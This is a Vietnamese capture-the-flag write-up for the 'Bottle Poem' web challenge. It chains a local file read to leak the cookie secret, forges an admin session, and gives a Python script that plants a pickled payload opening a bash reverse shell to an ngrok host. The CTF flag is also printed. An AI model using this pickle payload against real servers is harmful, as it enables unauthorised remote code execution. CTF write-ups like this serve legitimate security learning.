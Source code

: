 # Bottle Poem

Mở burp, và check tab http history dễ thấy ta có thể khai thác local file read (LFR) tại `/show?id=`

![LFR](https://user-images.githubusercontent.com/77546253/193604811-6f66b999-6627-4c31-aa56-82927b1f6957.png)

Tiếp tục fuzz ta có thể lấy được source file main của server

![app_py](https://user-images.githubusercontent.com/77546253/193604841-3e55f2a3-dd19-49a1-a341-8ba35b613038.png)

Điều làm mình để ý đó là đoạn code sau trong route `/sign`

```python
@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
```

Nếu `session["name"]=="admin"` thì sẽ render ra một template riêng cho admin, lúc này mình nghĩ tới cách forge session thành admin, nếu làm vậy thì ta sẽ phải cần có secret. May thay secret này được import từ `from config.secret import sekai`

-> read file này tại `/proc/self/cwd/config.secret.py`

![secret_py](https://user-images.githubusercontent.com/77546253/193604875-fa747bb1-aa30-430a-a6d1-d3a032aa1349.png)

Nhưng sau khi forge thành công thì chỉ nhận lại dòng chữ `Hello, you are admin, but it’s useless.`, nhìn lại description thì thấy tác giả có đề cập về `Flag is executable on server.` -> execute file này để lấy flag -> phải rce

Mình bay vào source của bottle, và để ý trong file `bottle.py` có import pickle và dùng chúng trong việc set_cookie cũng như get_cookie

![get_cookie](https://user-images.githubusercontent.com/77546253/193604971-69579aae-0bfd-418a-9629-098b2765b0fc.png)

=> lợi dụng pickle deserialization trong python để rce

script:

```python
import pickle
import base64
import os
 
 
class shell(object):
    def __reduce__(self):  
       return (os.system, ("bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/10709 0>&1'",))

from bottle import route, run, template, request, response, error

@route('/')
def hello():
    sekai='Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu'
    response.set_cookie("name", shell(), secret=sekai)

    return "Hello World!"

run(host='localhost', port=1111, debug=True)
```

và flag: `SEKAI{W3lcome_To_Our_Bottle}`
